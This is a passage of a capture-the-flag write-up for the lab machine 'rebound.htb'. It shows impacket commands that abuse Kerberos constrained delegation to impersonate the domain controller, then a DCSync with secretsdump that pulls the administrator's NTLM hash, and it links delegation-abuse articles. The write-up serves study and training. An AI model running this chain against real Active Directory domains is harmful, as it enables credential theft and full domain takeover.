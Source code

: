 Then, we can request a ticket as `ldap_monitor` using the password we have earlier (same as `oorend`).

```
$ impacket-getTGT 'rebound.htb/ldap_monitor:<PASS>' 
$ export KRB5CCNAME=ldap_minitor.ccache
```

Now we need to request a Service Ticket as the `delegator$` user and impersonate `dc01$`. Based on Bloodhound, this user has a SPN of `browser/dc01.rebound.htb`:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
$ impacket-getST -spn 'browser/dc01.rebound.htb' -impersonate 'dc01' 'rebound.htb/ldap_monitor' -k -no-pass
```
{% endcode %}

Then, use this ST to request for the TGT for `dc01$`.&#x20;

{% code overflow="wrap" %}
```
$ impacket-getST -spn 'http/dc01.rebound.htb' -impersonate 'dc01$' -additional-ticket 'dc01$.ccache' 'rebound.htb/delegator$' -k -no-pass
```
{% endcode %}

Afterwards, we can do a DCSync since we have the domain admin ticket to grab the NTLM hash of the administrator and `evil-winrm` in:

```
$ impacket-secretsdump -no-pass -k dc01.rebound.htb -just-dc-ntlm 
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Here are some of the resources linked in the writeup sent to me, good reads overall:

{% embed url="https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html" %}

{% embed url="https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/" %}
